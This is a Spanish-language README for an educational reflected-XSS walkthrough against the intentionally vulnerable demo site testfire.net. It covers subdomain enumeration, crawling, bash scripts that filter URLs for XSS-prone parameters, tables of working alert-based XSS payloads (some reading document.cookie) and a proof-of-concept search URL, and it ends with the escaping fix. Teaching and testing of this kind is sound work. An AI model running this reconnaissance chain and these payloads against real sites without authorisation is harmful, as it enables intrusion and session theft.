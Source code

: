 # Reflected XSS Framework

![Anatomía de un ataque XSS](https://websitesecuritystore.com/wp-content/uploads/2021/07/cross-site-scripting-examples.svg)

>*Imagen tomada de: [Website Security Store](https://websitesecuritystore.com)*

Este repositorio contiene un marco de trabajo básico para la detección y explotación ética de vulnerabilidades de tipo **XSS reflejado**.

---

## ⚠️ Disclaimer

> Este proyecto es **exclusivamente para fines educativos** y de **pruebas en entornos controlados**.  
> No está permitido su uso en sistemas sin la debida autorización.  
> **Demo utilizada:** [http://testfire.net](http://testfire.net) con credenciales `admin:admin`  
> Esta aplicación está diseñada intencionalmente para tener fallas de seguridad.  
> *“This web application is purposely designed to have security vulnerabilities for educational and testing purposes.”*

---
<!-- espacio -->
## 1. Add Custom HTTP Headers in Burp Suite

```bash
# En Burp -> Proxy -> match/replace rule
# Añadir:
Type: Request header
Match: ^User-Agent.*$
Replace: X-Pentest: Kxss_PoC 
Comment: (empty)
```
```bash
#Auto-modified request
POST /update HTTP/2
Host: example.com
Content-Type: application/json
X-Pentest: Kxss_PoC 
Content-Length: 34

{
  "key1": "value1",
  "key2": "value2"
}
```
>*Referencias: [Requestly](https://requestly.com/blog/modify-headers-in-https-requests-and-responses-in-chrome-firefox-safari/) [Exploit-notes](https://exploit-notes.hdks.org/exploit/web/tool/add-custom-http-headers-in-burp-suite/) [Website for testing header](https://httpbin.org/headers)*

<!-- espacio -->
## 2. Encontrar subdomains
```bash
subfinder -d testfire.net -silent -all -recursive -o testfire.net_subs.txt
amass enum -passive -d testfire.net -o testfire.net_amass_subs.txt
url -s "https://crt.sh/?q=%25.testfire.net&output=json" | jq -r '.[] | .name_value' | sed 's/\*\.//g' | anew testfire.net_crt.txt
github-subdomains -d testfire.net -t [github_toke] -o testfire.net_github_subs.txt
cat *_subs.txt | sort -u | anew testfire.net_all_subs.txt
```
```bash
# Obtener toekn github
#Fine-grained personal access tokens -> Generate new token
```
>*Referencias: [Generate Token](https://github.com/settings/personal-access-tokens/)*

<!-- espacio -->
## 3. Web Crawling para encontrar URLs interesantes
```bash
#Simple command
katana -u testfire.net -silent -jc -o testfire.net_katana_results.txt
```
> Bash práctico para muchos subdomains
```bash
nano run_katana.sh
chmod +x run_katana.sh
./run_katana.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

INPUT="testfire.net_all_subs.txt"
OUTPUT="testfire.net_katana_results.txt"

# Limpiar salida anterior
> "$OUTPUT"

# Filtrar subdominios válidos y ejecutar katana
grep -oP '(?:[a-zA-Z0-9_-]+\.)+testfire\.net' "$INPUT" | sort -u | while read -r sub; do
    echo "[+] Escaneando: http://$sub"
    katana -u "http://$sub" -silent -jc >> "$OUTPUT"
done

echo "[+] Finalizado. Resultados en $OUTPUT"
```
</details>

<!-- espacio -->
## 4. Buscar patrones comunes de XSS en URLs
```bash
nano filtrar_parameters_xss.sh
chmod +x filtrar_parameters_xss.sh
./filtrar_parameters_xss.sh
```
<details>
<summary>📜 Ver script Bash completo</summary>

```bash
#!/bin/bash

# Archivo de entrada
INPUT_FILE="testfire.net_katana_results.txt"

# Archivo de salida
OUTPUT_FILE="parametros_xss.txt"

# Lista de parámetros sospechosos
PARAMS=(
"q"
"s"
"search"
"lang"
"keyword"
"query"
"page"
"keywords"
"year"
"view"
"email"
"type"
"name"
"p"
"callback"
"jsonp"
"api_key"
"api"
"password"
"emailto"
"token"
"username"
"csrf_token"
"unsubscribe_token"
"id"
"item"
"page_id"
"month"
"immagine"
"list_type"
"url"
"terms"
"categoryid"
"key"
"l"
"begindate"
"enddate"
)

# Crear expresión regular separada por |
REGEX=$(IFS=\| ; echo "${PARAMS[*]}")

# Filtrar y guardar en archivo de salida
grep -Ei "\b(${REGEX})\b" "$INPUT_FILE" > "$OUTPUT_FILE"

echo "[+] Resultados guardados en $OUTPUT_FILE"
```
</details>

>*Referencias: [Patrones xss](https://github.com/1ndianl33t/Gf-Patterns/blob/master/xss.json)*

<!-- espacio -->
## 5. Investigación de candidatos
```bash
#cat parametros_xss.txt.txt
https://demo.testfire.net/search.jsp
...
https://demo.testfire.net/swagger/err/error-transformers/transformers/not-of-type.js
https://demo.testfire.net/swagger/download-url.js
```

<details>
<summary>📜 Top payloads para testing</summary>

| Nº  | Payload                                             | Descripción                                                                 |
|-----|-----------------------------------------------------|------------------------------------------------------------------------------|
| 1  | `<script>alert(1)</script>`                         | Funciona cuando se inserta en HTML sin sanitizar.                  |
| 2  | `"><script>alert(1)</script>`                       | Cierra un atributo HTML antes de inyectar el script.                        |
| 3  | `<img src=x onerror=alert(1)>`                      | Ejecuta código JavaScript al fallar la carga de la imagen.                  |
| 4  | `<svg onload=alert(1)>`                             | SVG permite eventos como `onload`, útil para bypass en filtros simples.     |
| 5  | `<iframe src="javascript:alert(1)">`                | Ejecuta código desde el atributo `src`, usando el protocolo `javascript:`.  |
| 6  | `<body onload=alert(1)>`                            | Si se puede controlar etiquetas HTML, permite ejecutar al cargar el body.   |
| 7  | `<math><mtext><script>alert(1)</script>`           | Usa etiquetas poco comunes que a veces no son filtradas por WAFs.           |
| 8  | `<script>confirm(1)</script>`                       | Alternativa a `alert()`, puede evadir detecciones básicas.                  |
| 9  | `<details open ontoggle=alert(1)>`                  | HTML5: evento `ontoggle` poco filtrado, efectivo en bypass.                 |
| 10   | `<a href="javascript:alert(1)">Click</a>`           | Si el tag `<a>` es permitido, ejecuta JS al hacer clic.                     |

| Nº  | Payload                                                              | Descripción                                                                 |
|-----|----------------------------------------------------------------------|------------------------------------------------------------------------------|
| 1️  | `<script>alert(document.cookie)</script>`                            | Muestra las cookies activas de la sesión.                                   |
| 2  | `<script>alert(document.domain)</script>`                            | Muestra el dominio actual de ejecución.                                     |
| 3  | `<script>alert(document.location)</script>`                          | Imprime la URL completa del documento.                                      |
| 4  | `<script>alert(document.referrer)</script>`                          | Muestra desde qué página se llegó al sitio.                                 |
| 5  | `<script>alert("Cookie: "+document.cookie)</script>`                | PoC más personalizada mostrando la cookie.                                  |
| 6  | `<script>alert("URL: "+window.location.href)</script>`              | Muestra la URL completa con más claridad.                                   |
| 7  | `<script>alert("Dominio: "+location.hostname)</script>`             | Útil para fingerprint o confirmar subdominios.                              |
| 8  | `<script>alert("Ruta: "+location.pathname)</script>`                | Ruta del recurso dentro del sitio.                                          |
| 9  | `<script>alert("User-Agent: "+navigator.userAgent)</script>`        | Muestra el navegador/vista del cliente.                                     |
| 10   | `<script>alert("Cookie: "+document.cookie+"\nRef: "+document.referrer)</script>` | Combina datos clave en un solo pop-up.                            |

</details>

```bash
# Payload básico para la PoC:
<script>alert(document.cookie)</script>
#Url
https://demo.testfire.net/search.jsp?query=investor
https://demo.testfire.net/search.jsp?query=<script>alert(document.cookie)</script>
```
> Abrimos la ulr

![image](https://github.com/user-attachments/assets/8158af39-7bb6-478d-b70d-30124c771260)
> Testeamos el parámetro reflejado

![image](https://github.com/user-attachments/assets/7752fc90-2800-4a75-8ec9-ee26f52c385d)
> Insertamos el payload

![image](https://github.com/user-attachments/assets/1136a0b4-5fc0-4a46-a3b4-f1703687c70d)



>*Referencias: [Payload xss comunes](https://github.com/payloadbox/xss-payload-list)*

<!-- espacio -->
## 6. ¿Qué está pasando background?
> El servidor inserta directamente lo que escribimos en query en su HTML

```bash
<!-- TOC END -->
    <td valign="top" colspan="3" class="bb">
				<div class="fl" style="width: 99%;">
				<h1>Search Results</h1>
				<p>No results were found for the query:<br /><br />
				<script>alert(document.location)</script>
				</div>    
    </td>	
```
> El navegador no ve eso como texto, sino como un verdadero elemento <script>, y por eso lo ejecuta inmediatamente.
> Para evitar este ataque, debería escapar los caracteres especiales como <, >, " y ' en el parámetro query.
> De esta forma, el navegador lo mostraría como texto, no lo ejecutaría.

```bash
<p>No results were found for the query:<br /><br />
&lt;script&gt;alert(document.location)&lt;/script&gt;
```

<!-- espacio -->
## Creditos y Recursos
>*Referencias: [PortSwigger](https://portswigger.net/web-security/cross-site-scripting)*
>>*Referencias: [TryHackme](https://tryhackme.com/room/axss)*
>>>*Referencias: [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)*

